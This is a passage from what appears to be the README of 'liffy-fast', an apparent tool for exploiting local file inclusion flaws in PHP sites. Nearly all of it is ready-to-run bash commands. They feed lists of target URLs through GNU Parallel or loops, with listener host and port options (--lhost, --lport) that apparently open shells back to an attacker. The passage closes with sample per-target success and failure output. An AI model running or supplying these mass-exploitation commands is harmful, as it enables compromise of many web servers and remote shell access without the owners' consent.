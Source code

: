 ### GNU Parallel Integration

```bash
# Basic parallel usage
cat urls.txt | parallel -j 4 'liffy-fast data --url {} --lhost 192.168.1.100 --lport 4444'

# Parallel with progress bar
cat urls.txt | parallel --progress -j 4 'liffy-fast data --url {} --lhost 192.168.1.100 --lport 4444'

# Parallel with job log
cat urls.txt | parallel --joblog liffy_jobs.log -j 4 'liffy-fast data --url {} --lhost 192.168.1.100 --lport 4444'

# Parallel with different techniques
cat urls.txt | parallel -j 4 'liffy-fast {1} --url {2} --lhost 192.168.1.100 --lport 4444' ::: data input filter auto :::+ urls.txt
```

### Advanced Examples

```bash
# Multiple techniques with different parameters
for technique in data input filter auto; do
  cat urls.txt | liffy-fast $technique --batch --lhost 192.168.1.100 --lport 4444 --output "liffy_${technique}_results.log"
done

# Parallel processing with different ports
cat urls.txt | parallel -j 4 'liffy-fast data --url {} --lhost 192.168.1.100 --lport {#}'

# Batch processing with custom parameters
cat urls.txt | liffy-fast data --batch --lhost 192.168.1.100 --lport 4444 --cookies "session=abc123" --timeout 60 --proxy "http://127.0.0.1:8080"
```

## Output Formats

### Standard Output
```
[INFO] Processing 1/10: http://target1/file.php?page=
[SUCCESS] SUCCESS: http://target1/file.php?page=
[INFO] Processing 2/10: http://target2/file.php?page=
[ERROR] FAILED: http://target2/file.php?page= - Connection timeout
```

### JSON Output
```json
[
  {
    "url": "http://target1/file.php?page=",
    "technique": "data",
    "success": true,
    "error": null,
    "timestamp": "2024-01-01T12:00:00"
  },
  {
    "url": "http://target2/file.php?page=",
    "technique": "data",
    "success": false,
    "error": "Connection timeout",
    "timestamp": "2024-01-01T12:00:01"
  }
]
```